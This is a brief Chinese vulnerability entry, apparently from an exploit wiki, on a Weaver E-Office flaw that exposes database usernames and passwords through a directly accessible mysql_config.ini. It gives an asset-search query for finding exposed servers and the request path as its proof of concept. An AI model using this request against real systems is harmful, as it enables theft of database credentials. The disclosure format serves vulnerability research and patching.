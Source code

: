 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

<a-checkbox checked>泛微 E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1628480634885-fb632cc0-9146-482e-80f3-b37c3e9b5990.png)

验证POC

```php
/mysql_config.ini
```

![img](/assets/PeiQi-Wiki/img/1628480658765-2ba02ffc-962a-48ac-a708-26bfaddf8182.png)